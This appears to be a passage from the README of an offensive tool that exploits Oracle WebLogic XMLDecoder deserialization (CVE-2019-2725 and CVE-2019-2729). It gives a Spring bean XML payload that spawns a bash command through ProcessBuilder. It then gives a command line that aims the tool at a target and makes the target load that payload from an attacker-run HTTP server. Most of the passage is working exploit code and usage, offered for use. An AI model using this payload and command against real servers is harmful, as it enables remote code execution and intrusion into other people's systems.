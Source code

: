 ![image-20210407194203165](./img/7.png)

### XMLDecoder Deserialization：CVE-2019-2725、CVE-2019-2729 target needs to come out of the net,and there is no return display.

Put linux_bean.xml or win_bean.xml in the httpserver and modify the commands in the xml file.

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value>touch /tmp/exploit</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

Execute commands without echoes

```
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -T CVE-2019-2725 -springbeanurl 'http://x.x.x.x:8012/linux_poc.xml'
```

## Thanks

[https://github.com/5up3rc/weblogic_cmd](https://github.com/5up3rc/weblogic_cmd)

[https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)

